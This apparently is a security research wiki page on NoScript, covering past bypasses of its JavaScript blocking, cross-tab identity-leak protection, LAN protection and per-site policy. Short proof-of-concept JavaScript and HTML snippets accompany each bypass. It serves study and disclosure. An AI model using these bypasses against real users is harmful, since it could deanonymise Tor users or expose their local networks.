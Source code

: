 ```yaml
---
title: NoScript
---
```


[NoScript](https://noscript.net/) is a security browser extension installed by default on the Tor Browser that reduces the attack surface of visited websites such as by per site disabling JavaScript and blocking requests to the local area network.
It also has cross-site protections such as checking the URL for reflected XSS and asking before opening cross-site popups to avoid timing attacks and other leaks via the opener (Firefox only).

Disabling JS works by setting the following [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP):
```
noscript-marker; script-src 'none'; object-src 'none'; media-src 'none'; font-src 'none'; script-src-elem 'none'; script-src-attr 'none'; worker-src 'none'
```
So, in order to bypass it you need to find somewhere the CSP is not enforced like [this](https://bugs.chromium.org/p/chromium/issues/detail?id=1291060) or a PDF.

# Cross-tab Identity Leak Protection
Due to a flaw in cutting tab ties it did not think tabs where related when there was still a window reference.
```js
async function bypassFirefox(url) {
let win = open('about:blank');
await new Promise(resolve => setTimeout(resolve, 100));
win.location.reload();
await new Promise(resolve => setTimeout(resolve, 100));
win.location = url;
return win;
}
```
And later… [commit]( https://github.com/hackademix/noscript/commit/c22eafc35bfcc379e9323cae67c924dfa1830684)
```js
let w = open();
w.eval('console.log("some attack")');
location = target;
```
And later… (Requires two user interactions)
```js
w1 = open();
w2 = w1.open();
w1.close();
w2.location = target;
```
Like [COOP](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy) this does not affect timing attacks on the first navigation.

# LAN Protection
[Sandboxed content](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-sandbox) uses the origin of ‘null’ which bypassed the protection.
```js
let f = document.createElement('iframe');
f.srcdoc = '<img src="http://192.168.1.1/foo">';
f.sandbox = 'allow-scripts';
document.body.appendChild(f);
```
This was also expanded to [top-level documents](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/sandbox).

# Policy spoofing
document.baseURI was used to determine the policy for about: and javascript: URLs this could be set to any origin using the html base tag.  [commit](https://github.com/hackademix/noscript/commit/ee66b823210933ba80dd38acf122b4bab6bd7be1)
```html
<base href="https://www.example.com/">
```
